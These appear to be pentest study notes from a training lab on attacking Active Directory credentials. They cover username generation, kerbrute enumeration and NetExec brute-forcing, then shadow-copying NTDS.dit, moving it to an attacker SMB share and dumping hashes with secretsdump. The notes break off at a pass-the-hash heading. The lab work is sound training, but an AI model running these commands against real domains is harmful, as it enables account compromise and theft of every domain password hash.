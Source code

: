 - In this section, we will focus on how we can extract credentials through the use of a **`dictionary attack` against `AD accounts` and `dumping hashes` from the `NTDS.dit` file.**
- Once a Windows system is joined to a domain, **it will `no longer default to referencing the SAM database to validate logon requests`.** 
- That domain-joined system **will now send authentication requests to be validated by the domain controller** before allowing a user to log on.
- Someone looking to log on using a local account in the SAM database can still do so by specifying the `hostname` of the device proceeded by the `Username` (Example: `WS01\nameofuser`) or with direct access to the device then typing `.\` at the logon UI in the `Username` field.

# Dictionary attacks against AD accounts using NetExec
---
- It can be rather `noisy` **(easy to detect)** to conduct dictionary attacks over a network because they can generate a lot of network traffic and alerts on the target system.
- Many organizations follow a naming convention when creating employee usernames. Here are some common conventions to consider:
	- ![[Pasted image 20250630072936.png]]
- Often, an email address's structure **will give us the employee's username (structure: `username@domain`).**
- We can often find the email structure by Googling the domain name, i.e., "@inlanefreight.com" and get some valid emails. **==Look at PNPT Notes (OSINT & External Pentest) for more information==**

## Creating a custom list of usernames
- Let's say from OSINT, example list of names:
	- Ben Williamson
	- Bob Burgerstien
	- Jim Stevenson
	- Jill Johnson
	- Jane Doe
- We can create a custom list on our attack host using the names above:
```shell
	bwilliamson
	benwilliamson
	ben.willamson
	willamson.ben
	bburgerstien
	bobburgerstien
	bob.burgerstien
	burgerstien.bob
	jstevenson
	jimstevenson
	jim.stevenson
	stevenson.jim
```

- We can manually create our list(s) or **==use an `automated list generator` such as the Ruby-based tool [Username Anarchy](https://github.com/urbanadventurer/username-anarchy)==** to convert a list of real names into common username formats.
	- `./username-anarchy -i /home/ltnbob/names.txt`

## Enumerating valid usernames with Kerbrute
- Kerbrute can be used for brute-forcing, password spraying and username enumeration.
- Right now, we are only interested in username enumeration, which would look like this:
	- `kerbrute userenum --dc 10.129.201.57 --domain inlanefreight.local names.txt`

## Launching a brute-force attack with NetExec
- We can launch a **brute-force attack against the target domain controller** using a tool such as NetExec.
- Here is the command to do so:
	- `netexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt`
- On any Windows operating system, **an admin can navigate to `Event Viewer` and view the Security events to see the exact actions that were logged.**

# Capturing NTDS.dit
---
- `NT Directory Services` (`NTDS`) is the directory service used with A**D to find & organize network resources.** 
- Recall that `NTDS.dit` **file is stored at `%systemroot%/ntds`** on the domain controllers in a [forest](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model).
- The `.dit` stands for [directory information tree](https://docs.oracle.com/cd/E19901-01/817-7607/dit.html)
- This is the primary database file associated with AD and **==stores all domain usernames, password hashes==**, and other critical schema information.

## Connecting to a DC with Evil-WinRM
- `evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'`

## Checking local group membership
- Once connected, we can check to see what privileges `bwilliamson` has:
	- `net localgroup`
- To make a **==copy of the NTDS.dit file, we need local admin (`Administrators group`) or Domain Admin==** (`Domain Admins group`) (or equivalent) rights

## Checking user account privileges including domain
- `net user bwilliamson`

## Creating shadow copy of C:
- We can use `vssadmin` to **create a [Volume Shadow Copy](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) (`VSS`)** of the `C:` drive or whatever volume the admin chose when initially installing AD.
- It is **very likely that NTDS will be stored on `C:`** as that is the default location selected at install, **but it is possible to change the location.**
- We use **==VSS for this because it is designed to make copies of volumes that may be read & written to actively without needing to bring a particular application or system down==**:
	- `vssadmin CREATE SHADOW /For=C:`

## Copying NTDS.dit from the VSS
- We can then **copy the `NTDS.dit` file from the volume shadow copy of `C:`** onto another location on the drive to prepare to move NTDS.dit to our attack host.
	- `cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit`
- **Note:** As was the case with `SAM`, the hashes stored in **==`NTDS.dit` are encrypted with a key stored in `SYSTEM`.==** **In order to successfully extract the hashes, one must download both files.**

## Transferring NTDS.dit to attack host
- `cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData `

## Extracting hashes from NTDS.dit
- `impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL`


# A faster method: Using NetExec to capture NTDS.dit
---
- `netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! -M ntdsutil`
- `impacket-secretsdump 'ldap_svc':'Password123'@10.10.10.225 -ntds ntds.dit`


# Pass The Hash
---
- If not cracked, we can Pass them